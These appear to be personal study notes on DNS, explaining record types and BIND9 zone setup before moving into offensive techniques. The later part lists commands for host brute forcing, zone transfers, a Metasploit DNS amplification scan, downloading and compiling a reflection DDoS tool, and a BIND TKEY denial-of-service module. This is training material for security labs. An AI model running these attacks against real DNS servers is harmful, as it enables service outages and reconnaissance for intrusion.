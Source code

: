 DNS IN A NUT SHELL
- Your computer tries to resolve domain to IP address
- First it checks /etc/hosts  or C:\Windows\System32\drivers\etc\hosts
- If not, it checks for cached IP address in your ISP.
	- Cached pages remain cached based on TTL or Time To Live
- If ISP does not have cached version, it requests IP address from a root server.
	- Example: F-Root server URL is https://www.isc.org/f-root/
- F Root Name server will not give you IP address of requested domain.
	- instead it gives you ip address of the name server for the domain
	- For example, F root name server will give ns-175.awsdns-21.com for the domain duckduckgo.com
- SOA (Start of Authority)
- SOA for duckduckgo.com is responsible for domains only with that space
- SOA for google.com is ns1.google.com
- .com namespace is authorative for all .com's but not authoritative for .net's
- namespaces are often called zones .
- DNS Resource records - entries in the DNS database
	- A  - Address of host , the IP address. 
	- AAAA  - Address of host, IPV6
	- CName  - canonical name - alias domain name that points to same ip
	- MX  - mail exchanger - the mail server. could be ip address or hostname.
	- NS  - name server - contains name server for zone
	- SOA  - start of authority - 
	- PTR  - Pointer - used for reverse DNS lookups. IE supplying IP address and getting back domain.
	- TXT  - used to add additional information used by administrators in human readable formats.

BIND9

setting up recursion and caching.
https://www.digitalocean.com/community/tutorials/how-to-configure-bind-as-a-caching-or-forwarding-dns-server-on-ubuntu-14-04
vim named.conf.options
>> allow-recursion-on{any;}; 
>> allow-query{any;};

checking dns cache
sudo rndc dumpdb -cache
cat /var/cache/bind/named_dump.db | grep facebook


installing
sudo apt install bind9
cat /etc/bind/named.conf  (config file for bind)

making a new zone
vim named.conf.local
```
zone "mydomain.com"
{
    type master;
    file "/etc/bind/db.mydomain.com";
};
```

making a record
vim db.mydomain.com
```
$TTL 604800@ 
IN SOA mydomain.com root.mydomain.com. (
    2 ; Serial
    604800 ; Refresh
    86400 ; Retry
    2419200 ; Expire
    604800 )

IN A 10.10.10.10
@ IN A 10.10.10.10
@ IN AAAA ::1
@ IN NS ns.mydomain.com.
ns IN A 10.10.10.10
```


$TTL - Time To Live
@ - used to represent zone origin. If $ORIGIN is set, then all @ symbols would be replaced with the $ORIGIN. If no origin is set, it is taken from named.conf name.
Name - Blank spaces are copied from row above
Record Class - Usually IN (Internet) 
Record Type - Type of record, A, NS, AAAA, SOA
Record Data -  Often an IP address or host name. root.mydomain.com is an email address and should be though of as root@mydomain.com
Serial Number - Incremented each time zone file is updated. Common to use the date as the serial number. 

systemctl restart bind9.service

FINDING HOSTS
whois truelinkfinancial.com | grep "Name Servers"

recon-ng to brute force hosts
./recon-ng
modules load recon/domains-hosts/brute_hosts
db insert domains google.com~
run
show hosts 

host command
host domain.com
host 8.8.8.8


nmap for DNS server
nmap 10.0.0.1  - look for port 53
nmap -sU 10.0.0.1 - scans for UDP. DNS uses UDP traffic
nmap -sU 10.0.0.1 -p 53 - scans single port for udp.
nmap -Pn 10.0.0.1 - treats host online, doesn't do ping scans.

dig info

dig @nameserver domainname - queries specific nameserver.
dig @148.72.65.77 facebook.com

Question Section - the original query
Server Section - The IP address of the server you requested for DNS.
Authority Section - Shows the hosts nameserver. returns a glue record.

dig @148.72.65.77 c.ns.facebook.com. - queries facebooks name servers
dig @148.72.65.77 facebook.com MX - digs specific resource record.

chaos 
- stores bind information like metadata.
- we are querying the BIND instance, not DNS
- queries take form of name but uses .bind as tld.
- answers are returned in txt section
dig @$ip version.bind chaos txt
dig @$ip authors.bind chaos txt
dig @$ip ID.bind chaos txt


dig @192.168.56.101 AXFR nsa.gov - zone transfers

python dnsrecon.py -n $ip -d facebook.com
python fierce.py --domain facebook.com

traffic amplification
you spoof an ip address in your DNS request and the DNS server sends the data back to the spoofed IP address.
dig @$ip nsa.gov ANY

metasploit
msfconsole
search dns_amp
use auxiliary/scanner/dns/dns_amp
set DOMAINNAME google.com
set RHOSTS $ip

ddos script
download
wget --user=student --password=student https://www.hackerhousebook.com/files/dnsdrdos.c
gcc dnsdrdos.c -o ddos
./ddos -H
vim dns_servers.txt



DNS Metasploit
search tkey
use auxillary/dos/dns/bind/bind_tkey
set RHOSTS ip


DNSSpoof, DUG SONG
DNSCachePoisoning
Cache Snooping - dig somethingelse.com +norecurse

nmap -sU --script dns-fuzz --script-args timelimit=2h 192.168.56.101 -p 53
